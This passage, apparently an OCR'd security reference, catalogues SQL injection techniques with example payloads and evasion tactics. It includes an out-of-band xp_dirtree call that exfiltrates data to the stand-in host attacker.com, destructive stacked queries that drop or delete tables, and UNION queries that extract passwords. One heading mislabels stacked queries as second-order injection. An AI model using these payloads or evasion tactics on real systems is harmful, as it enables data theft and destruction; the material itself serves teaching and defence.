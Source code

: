 #### **b. Time-Based**  
- **Mechanism**: Attackers measure delays in database responses to confirm conditions.  
- **Example Payload**:  
  `' AND IF(1=1, SLEEP(5), NULL)--` (pauses execution for 5 seconds if true).  
- **Evasion Tactics**:  
  Using smaller delay values (e.g., `SLEEP(1)`) to avoid suspicion.  

#### **c. Out-of-Band**  
- **Mechanism**: Exploits DNS or HTTP requests to exfiltrate data to an attacker-controlled server.  
- **Example Payload**:  
  `'; EXEC master..xp_dirtree '\\attacker.com\exploit'--` (Windows-specific, triggers DNS lookup).  
- **Evasion Tactics**:  
  Using legitimate-looking domains or encrypted channels.  

---

### 4. **Stacked Queries (Second-Order SQLi)**  
- **Mechanism**: Attackers inject multiple SQL statements separated by semicolons (`;`), allowing arbitrary command execution.  
- **Example Payload**:  
  `' DROP TABLE users; SELECT * FROM orders--`  
- **Evasion Tactics**:  
  Encoding semicolons (`%3B`) or using alternative delimiters (e.g., `GO` in MSSQL).  

---

### 5. **Inline Comment Abuse**  
- **Mechanism**: Attackers truncate legitimate queries using SQL comments (`--`, `/* */`) to bypass input sanitization.  
- **Example Payload**:  
  `' OR '1'='1' /*` neutralizes trailing SQL clauses.  
- **Evasion Tactics**:  
  Using nested comments (`/**/) or alternative syntax.  

---

### 6. **Second-Order SQL Injection**  
- **Mechanism**: Malicious input is stored in the database and later used in a secondary query, evading initial detection.  
- **Example Scenario**:  
  A user profile field with input `' OR 1=1--` is later queried, triggering an injection during data retrieval.  
- **Evasion Tactics**:  
  Obfuscating payloads in stored fields (e.g., hex-encoded strings).  

---

### **Summary Table of Attack Vectors**  
| **Attack Vector**       | **Mechanism**                                                                 | **Example Payload**                                  | **Evasion Tactics**                          |  
|-------------------------|-------------------------------------------------------------------------------|-----------------------------------------------------|---------------------------------------------|  
| Error-Based             | Exploits verbose error messages to extract data.                              | `' UNION SELECT NULL, version()--`                  | Hex/ASCII encoding, alternative syntax.     |  
| Union-Based             | Combines queries to retrieve data from other tables.                          | `' UNION SELECT username, password FROM users--`    | Adjust column counts, use `NULL`.           |  
| Boolean-Based Blind     | Infers data via true/false response differences.                              | `' AND (SELECT COUNT(*) FROM users) > 100--`       | Encoded payloads, varied conditions.        |  
| Time-Based Blind        | Measures database response delays.                                            | `' AND IF(1=1, SLEEP(5), NULL)--`                  | Smaller delays, obfuscated functions.       |  
| Stacked Queries         | Executes multiple SQL statements sequentially.                                | `' DELETE FROM orders; SELECT * FROM users--`      | Encoded semicolons, alternative delimiters. |  
| Second-Order SQLi       | Stored input triggers injection during later queries.                         | `' OR 1=1--` (stored in a profile field)            | Obfuscated storage, delayed execution.      |  

---